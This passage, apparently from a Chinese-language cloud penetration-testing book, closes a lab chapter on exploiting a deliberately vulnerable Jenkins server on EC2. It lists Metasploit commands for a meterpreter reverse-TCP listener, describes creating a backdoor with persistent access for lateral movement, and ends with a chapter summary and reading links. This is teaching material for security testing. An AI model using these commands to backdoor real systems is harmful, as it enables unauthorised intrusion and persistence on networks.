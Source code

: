 现在，我们设置 Metasploit 监听传入连接。依次输入以下命令：

```
use multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <<Kali IP Address>>
set LPORT 4444
run
```

我们从目标服务器获得了一个新的传入连接：

![](img/ed93de70-06b1-4c42-a553-fb803690bd74.jpg)

因此，我们成功地为我们的受损服务器创建了一个后门，并创建了持久访问。这结束了我们的练习。这种持久访问现在可以用于横向移动，并允许我们攻击网络中的其他机器。

# 摘要

本章介绍了如何设置一个易受攻击的 EC2 环境，模拟一个受限网络，然后对其进行渗透测试。我们学习了如何以易受攻击的方式配置 Jenkins 服务器。随后，我们学习了如何设置 Nexpose 漏洞扫描器，然后对我们易受攻击的 Jenkins 服务器进行了漏洞扫描。此外，我们学习了如何使用 Metasploit 对 Jenkins 进行自动化利用，并使用 meterpreter 有效载荷来在受限网络内进行主机转移和横向移动。

这就是第五章的结束。在下一章中，我们将学习关于 EBS 卷、磁盘加密和卷快照。此外，我们将学习如何进行取证分析，并从 EBS 卷中恢复丢失的数据。

# 进一步阅读

+   [`www.packtpub.com/networking-and-servers/mastering-metasploit`](https://www.packtpub.com/networking-and-servers/mastering-metasploit)

+   [`nexpose.help.rapid7.com/docs/security-console-quick-start-guide`](https://nexpose.help.rapid7.com/docs/security-console-quick-start-guide)

+   [`jenkins.io/doc/tutorials/`](https://jenkins.io/doc/tutorials/)
